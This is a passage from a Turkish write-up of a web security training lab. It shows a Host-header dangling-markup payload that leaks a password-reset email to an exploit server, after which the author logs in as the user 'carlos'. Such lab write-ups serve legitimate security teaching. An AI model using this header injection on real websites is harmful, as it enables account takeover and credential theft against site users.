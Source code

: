 Dolayısıyla bu kısma payload’ımızı yerleştirip request gönderiyoruz. Domain olarak da exploit server üzerinde bize verilen domain adresini girmemiz gerekmektedir. Nihai host alanı değerimiz de bu şekilde olacaktır;

```html
Host: 0a080033034fe334815adf1400b6007d.web-security-academy.net:80'></a> <img src="https://exploit-0a9c002d03d5e3dd818ade8101a40022.exploit-server.net/exploit/?a=
```

![Untitled](0x13-ada5ae96539943db9d14955c71e3b77c/Untitled-23.png)

Bu request’i gönderdikten sonra `exploit server` üzerinden `access log`’ları inceliyoruz. Yaptığımız incelemeler neticesinde ise `carlos` kullanıcısı için şifrenin geldiğini görmekteyiz;

![Untitled](0x13-ada5ae96539943db9d14955c71e3b77c/Untitled-24.png)

Ve artık bu şifre ile Carlos kullanıcısının hesabına giriş yapabiliriz. Lab ortamını da bu şekilde çözmüş olduk…
